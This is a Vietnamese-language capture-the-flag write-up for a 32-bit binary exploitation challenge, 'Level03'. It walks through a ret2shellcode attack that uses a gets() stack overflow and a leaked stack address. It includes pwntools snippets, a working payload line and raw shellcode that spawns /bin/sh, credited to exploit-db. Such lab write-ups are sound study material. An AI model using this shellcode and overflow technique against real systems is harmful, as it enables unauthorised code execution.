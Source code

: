 # Level03

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
Level03: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e409dfbe51a5b1c5dfc881a316c209e57d9aeccd, not stripped
```
Đây là file 32-bit không bị ẩn tên hàm.

Kế đến, kiểm tra security của file:

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Vậy là toàn bộ chế độ bảo vệ, bao gồm cả NX (No eXecute)-là một tính năng bảo mật giúp ngăn việc thực thi mã từ các vùng bộ nhớ không thể thực thi

Tiếp đến ta sẽ sử dụng ida-pro-32bit

Ta có hàm `main()`:

![ida.png](images/ida.png)

# 2. Ý tưởng

Do ở bài này, chế độ bảo vệ NX đã bị tắt mà ở ngay đầu hàm `main()`, chương trình đã in ra địa chỉ của biến nhập vào `s`

```
printf("Cai nay %x la cai gi vay co an duoc khong?\n", s);
```

-> Sử dụng kỹ thuật `ret2shellcode`

# 3. Khai thác

Đầu tiên, do NX đã bị tắt, ta sẽ xem vùng nhớ nào có quyền thực thi bằng câu lệnh `vmmap` trong `gdb`

![gdb1.png](images/gdb1.png)

Vậy là vùng nhớ có quyền thực thi là stack mà biến `s` được lưu trên stack cộng thêm việc ta đã có địa chỉ ấy ngay từ đầu

-> Lợi dụng câu lệnh `gets()` thực hiện lỗ hổng tràn bộ nhớ đệm - buffer overflow để ghi đè `return_addr` về địa chỉ của shellcode

Đầu tiên ta sẽ sử dụng câu lệnh để loại bỏ các ký tự thừa không cần thiết:

```
p.recvuntil(b"Cai nay ")
```

![gdb2.png](images/gdb2.png)

Tiếp đến, lấy các ký tự là địa chỉ của biến `s` và biến nó tự dạng `hex - 16` sang dạng `int - 10`:

```
stack_leak = int(p.recv(8),16)
```

Kế đến, nhìn vào ida ta có địa chỉ của biến `s`: 

```
char s[8]; // [esp+Ch] [ebp-Ch]
```

-> Mã khai thác của ta sẽ như sau:

+ 12 bytes đầu ghi đè biến `s` ([ebp-Ch])
+ 4 bytes sau là ghi đè ebp
+ 4 bytes tiếp đó là địa chỉ của ret_addr, ta ghi đè địa chỉ này thành địa chỉ của shellcode
+ shellcode

Tính toán địa chỉ shellcode:

Do ban đầu chương trình cho ta địa chỉ biến `s`, mà nhìn lại đoạn mã khai thác trên cho thấy shellcode ở sau biến `s` 1 khoảng là 20 bytes

-> địa chỉ shellcode = địa chỉ biến `s` + 20

```
shellcode = b"\x31\xdb\xb3\x03\x31\xc9\xb1\x03\xfe\xc9\x31\xc0\xb0\x3f\xcd\x80\x80\xf9\xff\x75\xf3\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload = b"a"*16 + p32(stack_leak + 20 ) + shellcode
```

Shellcode ở link: https://www.exploit-db.com/exploits/42428

![flag.png](images/flag.png)